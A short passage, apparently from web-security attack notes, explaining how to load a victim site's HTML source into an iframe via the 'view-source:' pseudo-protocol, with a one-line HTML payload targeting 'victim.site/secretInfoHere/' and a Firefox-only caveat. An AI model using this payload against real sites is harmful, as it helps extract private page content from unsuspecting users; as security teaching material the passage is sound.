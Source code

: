 ## Content Extraction
We could use the view-source: pseudo-protocol to load the HTML source code into an iframe.
```html
<iframe src="view-source:http:// victim.site/secretInfoHere/"></iframe>
```
>  This technique only works on Firefox, without the NoScript addon.


